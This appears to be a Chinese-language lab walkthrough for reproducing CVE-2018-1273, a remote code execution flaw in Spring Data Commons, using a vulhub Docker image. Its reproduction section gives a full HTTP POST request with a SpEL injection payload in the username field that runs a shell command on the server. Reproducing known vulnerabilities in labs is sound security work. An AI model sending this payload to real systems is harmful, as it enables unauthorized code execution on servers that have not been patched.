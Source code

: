 # Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）

[toc]

## 环境搭建

docker-compose.yml

```yml
version: '2'
services:
 spring:
   image: vulhub/spring-data-commons:2.0.5
   ports:
    - "8080:8080"
```

```bash
docker-compose up -d
```

## 漏洞复现

* 访问`http://your-ip:8080/users`

* 抓取报文并修改

    ```http
    POST /users?page=&size=5 HTTP/1.1
    Host: 127.0.0.1:8080
    Content-Length: 126
    Cache-Control: max-age=0
    sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: http://127.0.0.1:8080
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: http://127.0.0.1:8080/users
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/Mysuccess")]=&password=&repeatedPassword=
    ```

## 漏洞分析

> [Spring Data Commons Remote Code Execution 分析-【CVE-2018-1273】 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2269#toc-3)
